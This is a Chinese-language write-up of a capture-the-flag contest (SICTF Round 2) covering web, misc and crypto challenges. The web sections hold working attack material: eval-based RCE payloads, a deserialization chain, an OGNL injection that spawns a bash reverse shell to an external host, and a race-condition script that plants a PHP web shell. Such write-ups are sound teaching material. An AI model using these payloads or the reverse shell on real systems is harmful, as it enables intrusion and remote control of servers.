

# Web
# [签到] Include
php 伪协议直接读 /flag
?SICTF=php://filter/convert.base64-encode/resource=/flag |
# Baby_PHP
代码审计，正则绕过
进入题目是一大串 php 代码：
<?php | |
highlight_file(__FILE__); | |
error_reporting(0); | |
$query = $_SERVER['QUERY_STRING']; | |
if (preg_match('/_|%5f|\.|%2E/i', $query)) { | |
die('You are Hacker!'); | |
} | |
if($_GET['k_e_y'] !=='123' && preg_match('/^123$/',$_GET['k_e_y'])){ | |
echo("You are will Win!<br>"); | |
if(isset($_POST['command'])){ | |
$command = $_POST['command']; | |
if(!preg_match("/\~|\`|\@|\#|\\$|\%|\&|\*|\（|\）|\-|\+|\=|\{|\}|\[|\]|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i",$command)){ | |
eval($command); | |
} | |
else{ | |
echo("You are Hacker!"); | |
} | |
} | |
} | |
else{ | |
echo("K_e_y is Errors!"); | |
} |
$_SERVER ['QUERY_STRING'] 获取查询语句，既要绕过 get 参数中下划线的的过滤，还要绕过正则匹配的 123
我们这里可以利用 php 字符串的解析特性进行 bypass
我们知道PHP将查询字符串（在URL或正文中）转换为内部$_GET或的关联数组$_POST。例如：/?foo=bar变成Array([foo] => "bar")。值得注意的是，查询字符串在解析的过程中会将某些字符删除或用下划线代替。例如，/?%20news[id%00=42会转换为Array([news_id] => 42)。如果一个IDS/IPS或WAF中有一条规则是当news_id参数的值是一个非数字的值则拦截，那么我们就可以用以下语句绕过： |
/news.php?%20news[id%00=42"+AND+1=0--
上述 PHP 语句的参数 %20news [id%00 的值将存储到 $_GET ["news_id"] 中。
HP 需要将所有参数转换为有效的变量名，因此在解析查询字符串时，它会做两件事：
1. 删除空白符
2. 将某些字符转换为下划线（包括空格）
例如：
| User input | Decoded PHP | variable name |
|---|---|---|
| %20foo_bar%00 | foo_bar | foo_bar |
| foo%20bar%00 | foo bar | foo_bar |
| foo%5bbar | foo[bar | foo_bar |
本题我们可以用空格绕过下划线的过滤
这里说一下这个正则匹配的 ^ 和 $，这里进行了简单的测试
<?php | |
$subject = 'abcdef'; | |
$subject1 = 'abcdefs' | |
$subject2 = "def"; | |
$pattern = '/def/'; | |
$pattern = '/def$/' | |
preg_match($pattern,$subject,$matches); | |
print_r($matches); |
经过测试， $patern 为 /def/ 时，只要被测字符串中含有 def 字符串，就会匹配到；而 $pattern 为 /def$/ 时，被测字符串中含有 def 的部分必须是 def结尾 ，才能够匹配到。 ^ 亦然。
这个匹配可以通过在字符串结尾加上回车的 url 编码 %0A 来解决
第一层 payload:
/?k e y=123%0a
接下来就是绕过这句话：
if(!preg_match("/\~|\`|\@|\#|\\$|\%|\&|\*|\（|\）|\-|\+|\=|\{|\}|\[|\]|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i",$command)){ | |
eval($command); | |
} |
command=system(ls);
得到回显
index.php,flag.php
此题目是典型的无参 rce，关于无参 rce 可以参考以下文章：
https://xz.aliyun.com/t/9360
https://zhuanlan.zhihu.com/p/414283215?utm_id=0
以下 payload 皆可行:
command=show_source(next(array_reverse(scandir(pos(localeconv())))));
POST command=session_start();system(session_id());
Cookie PHPSESSID=tac${IFS}flag.php
ID 中不能带空格所以用 ${IFS} 替代
Cookie:PHPSESSID=flag.php
command=show_source(session_id(session_start()));
command=eval(end(current(get_defined_vars())));
得到 flag。
# RCE
题目：
<?php | |
error_reporting(0); | |
highlight_file(__FILE__); | |
$code = $_POST['code']; | |
$code = str_replace("(","hacker",$code); | |
$code = str_replace(".","hacker",$code); | |
eval($code); | |
?> |
很直球的 rce，过滤了 '(' 号和 '.' 号，但发现没有过滤反引号，可直接命令执行。
payload:
code=echo `cat /fl*`;
code=?><?=`cat /f*`; // 这种是看一个大佬一种比较有意思的解法，用？><? 把前面的 php 文件闭合，再新建一个 php 文件执行代码，也就是相当于可以自己可以创建任何 php 文件，真是个天才。
# 我全都要
题目：
highlight_file(__FILE__); | |
class B{ | |
public $pop; | |
public $i; | |
public $nogame; | |
public function __destruct() | |
{ | |
if(preg_match("/233333333/",$this->pop)){ | |
echo "这是一道签到题，不能让新生一直做不出来遭受打击"; | |
} | |
} | |
public function game(){ | |
echo "扣1送地狱火"; | |
if ($this->i = "1"){ | |
echo '<img src=\'R.jpg\'>'; | |
$this->nogame->love(); | |
} | |
} | |
public function __clone(){ | |
echo "必须执行"; | |
eval($_POST["cmd"]); | |
} | |
} | |
class A{ | |
public $Aec; | |
public $girl; | |
public $boy; | |
public function __toString() | |
{ | |
echo "I also want to fall in love"; | |
if($this->girl != $this->boy && md5($this->girl) == md5($this->boy)){ | |
$this->Aec->game(); | |
} | |
} | |
} | |
class P{ | |
public $MyLover; | |
public function __call($name, $arguments) | |
{ | |
echo "有对象我会在这打CTF???看我克隆一个对象！"; | |
if ($name != "game") { | |
echo "打游戏去，别想着对象了"; | |
$this->MyLover = clone new B; | |
} | |
} | |
} | |
if ($_GET["A_B_C"]){ | |
$poc=$_GET["A_B_C"]; | |
unserialize($poc); | |
} |
简单的反序列化，直接上代码：
<?php | |
class B | |
{ | |
public $pop; | |
public $i; | |
public $nogame; | |
} | |
class A | |
{ | |
public $Aec; | |
public $girl = "QNKCDZO"; | |
public $boy = "240610708"; | |
} | |
class P | |
{ | |
public $MyLover; | |
} | |
$b = new B(); | |
$a = new A(); | |
$p = new P(); | |
$b -> pop = $a; | |
$a -> Aec = $b; | |
$b -> nogame = $p; | |
echo serialize($b); |
?A_B_C=O:1:"B":3:{s:3:"pop";O:1:"A":3:{s:3:"Aec";O:1:"B":3:{s:3:"pop";N;s:1:"i";i:1;s:6:"nogame";O:1:"P":1:{s:7:"MyLover";O:1:"B":3:{s:3:"pop";N;s:1:"i";i:1;s:6:"nogame";N;}}}s:4:"girl";a:1:{i:0;i:1;}s:3:"boy";a:1:{i:0;i:2;}}s:1:"i";i:1;s:6:"nogame";N;}
cmd=system('cat /f*');
# pain
参考博客 1
参考博客 2
1. 用 jd-gui 查看 jdk 文件的内容。
2. 在 pain.class 内，可以知道这是 Ognl的解析漏洞 。
3. 跟进 dinner_waf.let_me_see_see 方法，可以看到 waf。
JAVA 语言内部是用 Unicode 表示字符，所以 Unicode 会被自动解析
4. 可以看到，在检测 waf 前，会对 payload 进行一次 url 解码。尝试用 unicode 编码来绕过，发现可行。
5. 最后用这两条 poc 中的其中一个来进行反弹 shell。
题目附件：
//pain.class | |
package BOOT-INF.classes.com.example.pain.demos; | |
import com.example.pain.demos.dinner_waf; | |
import java.util.Map; | |
import ognl.Ognl; | |
import ognl.OgnlContext; | |
import ognl.OgnlException; | |
import org.springframework.web.bind.annotation.GetMapping; | |
import org.springframework.web.bind.annotation.RestController; | |
@RestController | |
public class pain { | |
@GetMapping({"/"}) | |
public String Welcome() { | |
return "It's so beautiful , Litang."; | |
} | |
@GetMapping({"/start"}) | |
public String MyPain(String payload) throws OgnlException { | |
if (dinner_waf.let_me_see_see(payload)) { | |
OgnlContext ognlContext = new OgnlContext(); | |
Object ognl = Ognl.parseExpression(payload); | |
Object value = Ognl.getValue(ognl, (Map)ognlContext, ognlContext.getRoot()); | |
return (String)value; | |
} | |
return "Feel my pain"; | |
} | |
} |
//dinner_waf.class | |
package BOOT-INF.classes.com.example.pain.demos; | |
import java.net.URLDecoder; | |
import java.util.Locale; | |
public class dinner_waf { | |
private static String[] black_list = new String[] { "Runtime", "exec", "get", "class", "+", "Process", "Script", "eval", "invoke", "forName" }; | |
public static boolean let_me_see_see(String payload) { | |
if (payload.isEmpty()) | |
return false; | |
String decode_payload = URLDecoder.decode(payload); | |
for (String s : black_list) { | |
if (decode_payload.toLowerCase(Locale.ROOT).contains(s.toLowerCase(Locale.ROOT))) | |
return false; | |
} | |
return true; | |
} | |
} |
payload:
#编码前 | |
(new java.lang.ProcessBuilder(new java.lang.String[]{"bash","-c","bash -i >& /dev/tcp/ip/port 0>&1"})).start() | |
#编码后 | |
/start?payload=(new%20java.lang.%5Cu0050%5Cu0072%5Cu006f%5Cu0063%5Cu0065%5Cu0073%5Cu0073%5Cu0042%5Cu0075%5Cu0069%5Cu006c%5Cu0064%5Cu0065%5Cu0072(new%20java.lang.String%5B%5D%7B%22bash%22%2C%22-c%22%2C%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F7654du6216.zicp.fun%2F33699%200%3E%261%22%7D)).start() |
# 你能跟得上我的 speed 吗
题目：
<?php | |
if($_FILES["file"]["size"]>0){ | |
if ($_FILES["file"]["error"] > 0) { | |
echo "错误！！！！！！"; | |
die(); | |
} else { | |
$filename="./uploads/".$_FILES["file"]["name"]; | |
move_uploaded_file($_FILES["file"]["tmp_name"], $filename); | |
sleep(0.01); | |
unlink($filename); | |
} | |
}else{ | |
echo "你根本就没有上传，你到底在干什么？！"; | |
die(); | |
} | |
?> | |
<div><img src="smile.gif" alt="" /></div> | |
<h1>当你看见我的时候,你已经输了</h1> | |
<h1>一次战胜不了我，那就多来几次吧，万一你运气好比我快呢？</h1> |
条件竞争，储存 0.01 秒后删除文件
参考
文件上传之条件竞争
基本跟上面教程中的操作一模一样，开两个爆破，一个传马，一个访问
或者用官方给的脚本：
import threading | |
import requests | |
url = "" | |
def upload(): | |
while(True): | |
upload_result = requests.post(url+"upload.php", | |
files={"file": ("1.php","<?php | |
$op=fopen(\"shell.php\",\"a+\");fwrite($op,'<?php @eval($_POST[cmd]);? | |
>');fclose($op);echo(333) ?>")}, | |
headers={'Connection': 'close'} | |
) | |
global stop_threads | |
if stop_threads: | |
break | |
def getshell(): | |
while(True): | |
getshell_result = requests.get(url+"uploads/1.php", | |
headers={'Connection':'close'} | |
) | |
if "333" in getshell_result.text: | |
print("getshell!!!") | |
global stop_threads | |
stop_threads = True | |
break | |
stop_threads = False | |
threads= [] | |
t = threading.Thread(target=upload) # 开始扫描连接判断是否开启 | |
t2 = threading.Thread(target=getshell) | |
threads.append(t) | |
threads.append(t2) | |
t.start() | |
t2.start() | |
#这里还涉及一个知识点，想要更高效率的发包，就设置一个 header 头 Connection:close，请求完毕就会 | |
#将 connection 关闭，这样就不会占用连接。 | |
#如果不设置也能跑，只不过要跑很多次，就要看运气了，我这个脚本跑了一下很快就出了 |
# Do you know CC
cc 链，不会。
汪汪队的 wp
# Misc
# fast_morse
摩斯密码，长波短替换，或者使用 kali 的 morse2ascii 命令，不过最后得注意换成小写，附上一个在线网站：
Morse Code Audio Decoder | Morse Code World
# babyzip
bkcrack 明文爆破。
一位 misc 佬的链接
关于 bkcrack
先把 png 的头写到一个文件内。

bkcrack 攻击.
bkcrack.exe -C flag.zip -c flag.png -p plan.out -o 0 |
提取出 flag.png。
bkcrack.exe -C flag.zip -c flag.png -k 6424c164 7c334afd f99666e5 -d flag.png |
最后在 png 的尾部找到 flag。
# Crypto
# [签到] 古典大杂烩
给了一串表情密码：
🐩👃🐪🐼👅🐯🐩👈👇👭👟👝🐺🐭👉👙👤👋👚🐪🐫👍👢👮👱🐼👢👨👠👭🐽🐰🐻👚👂👧👠👥👛👮👯👮👬🐾👐👛👌👚👞🐨👏👉👆🐿👆👘👇🐺👦🐸👃🐭👟👑👪👃👁🐻🐻👜🐧👇👊🐧🐾🐼👇🐫🐺👐👆👪🐼👋👌👧🐻👐🐩🐺👥🐽👋👉🐰👎👠👠👣🐧🐫👧🐭👢🐯👑👑🐮👂👏🐻👥👚🐮👋👬👌👥👁👣👅👧👯👦👌👌👍👠👌🐽👉👃👊🐫👉🐨🐮👩👆🐪🐯👘👏👏🐼👩👍👊👍👡👀👰👋👣👨👧👍👜👐👛🐮👘👅👠🐿👂👰👄👈👝👠👤👃👛👘🐭👅👱👆👬👫👥👆🐽👁👐👥👊👇👉👊👩👌👭🐫🐫👬👱🐯👇🐺👁👞👑👙🐮👜👋👘👪👩👚👦👨👀👩👐👉👃🐾👥👀🐫👝👍🐩🐧👰👆👇👨🐪👃🐭👦🐫👱
最后解密方式为
Base100 → Base62 → Base64 → Base58 → Base32 → Base62
或者使用工具 ciphey:
附上下载链接
# Easy_CopperSmith
RSA 的 p 高位泄露。
源码：
PLAINTEXT | |
from Crypto.Util.number import * | |
from flag import flag | |
p = getPrime(512) | |
q = getPrime(512) | |
n = p * q | |
e = 65537 | |
leak = p >> 230 | |
m = bytes_to_long(flag) | |
c = pow(m,e,n) | |
print(n) | |
print(leak) | |
print(c) |
# sage | |
from Crypto.Util.number import long_to_bytes | |
from sage.all import * | |
def cop(leak): | |
n = 114007680041157617250208809154392208683967639953423906669116998085115503737001019559692895227927818755160444076128820965038044269092587109196557720941716578025622244634385547194563001079609897387390680250570961313174656874665690193604984942452581886657386063927035039087208310041149977622001887997061312418381 | |
p4= Integer(leak) | |
e = 0x10001 | |
pbits = 512 | |
kbits = pbits - p4.nbits() | |
print(p4.nbits() ) | |
p4 = p4 << kbits | |
PR.<x> = PolynomialRing(Zmod(n)) | |
f = x + p4 | |
roots = f.small_roots(X=2^kbits, beta=0.4) | |
if roots: | |
p = p4+int(roots[0]) | |
print ("n: ", n) | |
print ("p: ", p) | |
print ("q: ", n/p) | |
flag = long_to_bytes(int(pow(c,inverse_mod(e,(p-1)*((n/p)-1)),n))) | |
if b'SICTF' in flag: | |
print(flag.decode()) | |
c = 87627846271126693177889082381507430884663777705438987267317070845965070209704910716182088690758208915234427170455157948022843849997441546596567189456637997191173043345521331111329110083529853409188141263211030032553825858341099759209550785745319223409181813931086979471131074015406202979668575990074985441810 | |
for i in range(2*8): | |
leak_ = int(bin(6833525680083767201563383553257365403889275861180069149272377788671845720921410137177)+"{:03b}".format(i),2) | |
cop(leak_) |
结语：本次比赛受益良多，在做 web 的同时也感受到其他方向的乐趣，尤其是几道社工题，虽然后面是在社不动了......
期待明年的 Round3。